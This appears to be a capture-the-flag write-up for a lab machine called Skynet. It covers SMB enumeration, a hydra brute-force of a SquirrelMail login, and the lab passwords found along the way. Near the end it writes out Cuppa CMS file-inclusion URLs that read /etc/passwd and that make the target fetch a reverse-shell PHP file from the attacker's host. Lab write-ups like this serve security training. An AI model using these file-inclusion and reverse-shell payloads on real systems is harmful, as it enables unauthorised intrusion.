### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)

We perform enumeration on the secret page and the results are as follows:

![](../../img/Pasted%20image%2020220827220920.png)

We visit the page /administrator but it seems that we need credentials again:

![](../../img/Pasted%20image%2020220827220954.png)

After this, we tried to use searchsploit for any vulnerabilities:

![](../../img/Pasted%20image%2020220827221033.png)

After searching, we can see that there is a vulnerability that uses local file inclusion for obtaining RCE, thus we tried to perform the LFI first:

![](../../img/Pasted%20image%2020220827221146.png)

For the LFI, we will use this syntax first to check if it really is working:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Modifying into this:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Reveals into this:

![](../../img/Pasted%20image%2020220827221323.png)

At this point, we can safely assume that RFI (remote file inclusion) is also possible, and i got stuck in this point.

We will now craft the RFI section of the vuln:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?`

With which we will create a file in our local directory:

![](../../img/Pasted%20image%2020220827221852.png)

![](../../img/Pasted%20image%2020220827221902.png)

We will create a http.server on port 80 and netcat:

![](../../img/Pasted%20image%2020220827221934.png)

![](../../img/Pasted%20image%2020220827221945.png)

Then, after performing this link, we can now see that the httpserver has provided the php-reverse-shell file and netcat has now connected to the payload:

![](../../img/Pasted%20image%2020220827222042.png)

![](../../img/Pasted%20image%2020220827222057.png)

![](../../img/Pasted%20image%2020220827222109.png)

then performed shell stabilisation:

![](../../img/Pasted%20image%2020220827222126.png)



http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47/php-reverse-shell.php?